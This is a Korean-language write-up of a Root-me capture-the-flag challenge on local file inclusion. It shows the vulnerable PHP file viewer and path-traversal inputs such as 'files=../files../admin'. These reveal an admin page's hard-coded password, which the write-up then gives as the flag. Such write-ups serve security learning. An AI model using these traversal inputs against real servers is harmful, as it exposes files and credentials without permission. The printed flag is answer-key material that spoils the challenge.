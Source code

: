 ```yaml
---
title : "Local File Inclusion"
excerpt : "Root-me.org Web-Server Local File Inclusion"
toc: true
toc_sticky: true
categories :
  - Web-Server
tags :
  - LFI
---
```


## Local File Inclusion
```
Author
g0uZ,  2 October 2011

Statement
Get in the admin section.
```
```file=../```을 했더니 여러개의 파일들이 나오고 그 중 index.php가 포함되어 있음.  
```php
<?php
$authorized_dir=array('esprit', 'archives', 'coding', 'sysadm', 'crypto', 'reseau');
$files_dir="files";
if (isset($_GET["files"])) $files=$_GET["files"];
else if (!isset($_GET["files"]) || !in_array($files,$authorized_dir)) $files="apps";

$aff= '<html>
       <body>
	  <h1>File viewer v 0.01</h1><span id="mnenu"/>';

if (file_exists($files_dir)){
    $d=opendir($files_dir);  
    while ($file = readdir($d)) {
	  if ($file[0] == ".") { } 
	  else {
	      $aff.= "&nbsp;|&nbsp;<span><a href=\"?files=$file\">";
	      if ($file==$files) $aff.= "<b>$file</b>";
	      else $aff.= "$file";
	      $aff.= "</a></span>";
	  }
    }

    $aff.="&nbsp;|<span style='text-align: right; float:right;'>Connected as : <b>guest</b>&nbsp;|&nbsp;<a href=\"admin/\">admin</a></span><br/><hr/>";
    closedir($d);
}

$full_path=realpath($files_dir."/".$files); # realpath(files/../)
if (file_exists($full_path)){
    $aff.='<table id="content">';
    $aff.='<tr><td style="vertical-align: top;">';

    $d=opendir($full_path);
    while ($file = readdir($d)) {
	  if ($file[0] == ".") { } 
	  else {
	      $aff.= '<a href="?files='.$files."&f=".$file.'" ><img width="32px" height="32px" src="text.gif" alt="'.$file.'">'.$file.'</a><br/>';
	  }
    }

    $aff.='</td><td style="vertical-align: top;">';

    if (isset($_GET["f"]) && $_GET["f"]!=""){
      $lfi_path=$full_path."/".$_GET["f"];
	    $secured_path=realpath($lfi_path);
	    $aff.= "<h3>File : ".htmlentities($_GET["f"])."</h3>";
	    $aff.= "<hr/><pre>";
	    $aff.= htmlentities(file_get_contents($secured_path));
	    $aff.= "</pre><hr/>";
    }

    $aff.='</td></tr></table>';
}

$aff.="</body></html>";
echo $aff;

?>
```
절대경로를 반환하기 때문에 도저히 방법이 생각이 안나던 중 files 경로를 건들이다가 ```files=../files../admin```을 했더니 ```index.php```가 있었음.  
```php
<?php
function http_digest_parse($txt)
{
    $needed_parts = array('nonce'=>1, 'nc'=>1, 'cnonce'=>1, 'qop'=>1, 'username'=>1, 'uri'=>1, 'response'=>1);
    $data = array();
    $keys = implode('|', array_keys($needed_parts));
 
    preg_match_all('@(' . $keys . ')=(?:([\'"])([^\2]+?)\2|([^\s,]+))@', $txt, $matches, PREG_SET_ORDER);

    foreach ($matches as $m) {
        $data[$m[1]] = $m[3] ? $m[3] : $m[4];
        unset($needed_parts[$m[1]]);
    }

    return $needed_parts ? false : $data;
}

function auth($realm){
    header('HTTP/1.1 401 Unauthorized');
    header('WWW-Authenticate: Digest realm="'.$realm.'",qop="auth",nonce="'.uniqid().'",opaque="'.md5($realm).'"');
    die($realm);
}

$realm = 'PHP Restricted area';
$users = array('admin' => 'OpbNJ60xYpvAQU8');

if (empty($_SERVER['PHP_AUTH_DIGEST'])) {
  auth($realm);
}

if (!($data = http_digest_parse($_SERVER['PHP_AUTH_DIGEST'])) || !isset($users[$data['username']]))
    auth($realm);

$A1 = md5($data['username'] . ':' . $realm . ':' . $users[$data['username']]);
$A2 = md5($_SERVER['REQUEST_METHOD'].':'.$data['uri']);
$valid_response = md5($A1.':'.$data['nonce'].':'.$data['nc'].':'.$data['cnonce'].':'.$data['qop'].':'.$A2);

if ($data['response'] != $valid_response)
    auth($realm);

echo "<html>
	<head></head>
	<body>
	    <h3>You could use this password to validate the challenge !</h3>
	</body>
      </html>";
?>
```
따라서 admin페이지에 가서 코드에 있는 비밀번호를 사용하면 들어갈 수 있음.
```
flag : OpbNJ60xYpvAQU8
```

